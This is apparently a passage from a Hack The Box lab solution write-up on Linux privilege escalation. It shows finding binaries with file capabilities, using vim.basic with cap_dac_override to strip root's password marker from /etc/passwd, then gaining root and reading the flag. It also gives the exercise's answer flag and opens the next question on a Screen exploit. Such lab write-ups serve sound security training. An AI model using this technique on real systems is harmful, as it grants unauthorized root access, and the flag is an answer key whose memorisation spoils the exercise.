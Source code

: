 Next, students need to enumerate binaries with set capabilities:

Code: shell

```shell
find /usr/bin/ /usr/sbin/ /usr/local/bin/ /usr/local/sbin/ -type f -exec getcap {} \; 
```

```
htb-student@ubuntu:~$ find /usr/bin/ /usr/sbin/ /usr/local/bin/ /usr/local/sbin/ -type f -exec getcap {} \; 

/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/vim.basic = cap_dac_override+eip
```

Utilizing the `cap_dac_override` capability on the `vim.basic` binary (which allows for override of access controls), students need to use the binary to view the /etc/passwd file, deleting the `x` on the line for the root user:

Code: shell

```shell
 /usr/bin/vim.basic /etc/passwd
```

![[HTB Solutions/CPTS/z. images/8230983646567aaeb26d6b56d621f3a8_MD5.jpg]]

After saving the changes, students need to switch to the root user and read the flag:

Code: shell

```shell
su root
cat /root/flag.txt
```

```
htb-student@ubuntu:~$ su root

root@ubuntu:/home/htb-student# cat /root/flag.txt

HTB{c4paBili7i3s_pR1v35c}
```

The flag reads `HTB{c4paBili7i3s_pR1v35c}`.

Answer: `HTB{c4paBili7i3s_pR1v35c}`

# Vulnerable Services

## Question 1

### "Connect to the target system and escalate privileges using the Screen exploit. Submit the contents of the flag.txt file in the /root/screen\_exploit directory."
